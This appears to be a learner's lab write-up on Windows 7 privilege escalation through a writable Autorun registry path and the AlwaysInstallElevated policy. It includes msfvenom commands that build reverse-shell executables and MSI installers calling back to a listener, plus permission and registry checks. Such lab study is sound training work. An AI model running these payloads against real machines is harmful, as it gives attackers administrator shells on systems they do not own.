 WinPrivEsc-2

OS: Windows 7 

# 1. Registry Escaltion- Autorun

**Analysis:** 

Using windows sysinternal tool called autorun(I think similar to procmon.exe)

In Logon tab , is looking for "c:\program files\autorun program\program.exe" is not found. The registry HiVE location is.HKLM\Software\MicrosoftWindows\CurrentVersion\Run 

**Checking PATH Permissions**

If the path "C:\Program files\Autorun program\" is writable then a malicious file can be placed as program.exe and gain privilege access. 

C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"-

Found that everyone has read and write access

**Gaining Privileged Access**

Generate a payload using msfvenom, for reverse shell.

msfvenom -p windows/x64/shell_reverse_tcp lhost=10.11.9.187 lport=9001 -f exe -o program.exe

Transfer the payload to the C:\Program Files\Autorun Program folder and open a netcat listener on local machine.

Restart will give shell with admin privileges. 


# 2. Registry Escalation- AlwaysInstallElevated

**Analysis**
Query the follwoing registry hive 

Checking for Local Machine Policies:

C:\Users\user>reg query HKLM\Software\Policies\Microsoft\Windows\Installer

HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
Checking for Current User Policies: 

C:\Users\user>reg query HKCU\Software\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1


**Privilege Escalation** 

Generate a windows installer payload using msfvenom. 

 msfvenom -p windows/x64/shell_reverse_tcp lhost=10.11.9.187 lport=9001 -f msi -o setup.msi  

Transfer the payload to writable directory and execute it using msexec 
